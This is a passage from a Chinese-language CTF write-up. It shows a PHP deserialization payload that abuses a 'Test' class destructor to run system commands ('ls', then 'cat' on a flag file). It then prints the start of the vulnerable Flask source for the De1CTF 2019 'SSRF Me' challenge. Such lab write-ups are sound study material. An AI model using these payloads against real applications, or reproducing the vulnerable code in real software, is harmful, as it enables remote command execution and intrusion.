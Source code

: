 发现过滤了很多函数，但是可以利用`Test` 类的`__destruct` 函数。在调用`gettime` 函数，最终执行`call_user_func($func, $p)`

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:2:"ls";s:4:"func";s:6:"system";}
```



![image-20210416151747302](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210416151754.png)

payload:

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```

## [De1CTF 2019]SSRF Me

```python
#! /usr/bin/env python
# #encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')
 
app = Flask(__name__)
 
secert_key = os.urandom(16)
 
class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):
            os.mkdir(self.sandbox)
 
    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
```
